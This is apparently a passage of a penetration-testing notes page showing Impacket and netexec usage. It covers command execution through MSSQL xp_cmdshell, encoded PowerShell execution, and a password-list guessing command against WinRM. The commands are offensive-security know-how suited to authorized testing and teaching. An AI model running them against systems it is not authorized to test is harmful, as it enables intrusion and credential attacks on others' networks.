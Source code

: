 [Impacket](https://github.com/fortra/impacket) is a collection of useful tools that can be used for more than just connecting to open ports with different protocols.

### MSSQL With Impacket

```bash
mssqlclient.py '<user>:<password>'@<IP>
```

Then use the following to execute commands on the system:

```bash
exec xp_cmdshell '<command>'
```

And the following to execute powershell scripts via a similar method:

```bash
xp_cmdshell powershell -e <base64 encoded powershell>
```

## netexec
A continuation of the `crackmapexec` project. Get it [here](https://github.com/Pennyw0rth/NetExec).

### Simple netexec Usage with LDAP
`netexec` can interact with many different network protocols, but here is an example of using it to connect to an open LDAP port with known credentials:

```bash
netexec ldap <IP> -u <user> -p <password>
```
### Simple netexec Usage with MSSQL

`sa` is the typical default admin account for connecting to MSSQL, but others could also work.

```bash
$ netexec mssql <IP> -u sa -p <password> --local-auth
```

`--local-auth` may not be required, but it sometimes is.

### Test out Windows credentials with netexec

If you have a username and want to test a list of passwords on an AD domain, use the following:

1. Put your passwords separated by lines in a file (passwords.txt in this case)
2. Run this command to test the password list for a given user
```bash
netexec winrm <IP> -u <user> -p passwords.txt
```
<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0 small-margin">
        {% include figure.liquid loading="eager" path="assets/img/cs-web-app/netexec-pass.png" class="img-fluid rounded z-depth-1" zoomable=true %}
    </div>
</div>
<div class="caption">
    Testing passwords with `netexec`
</div>
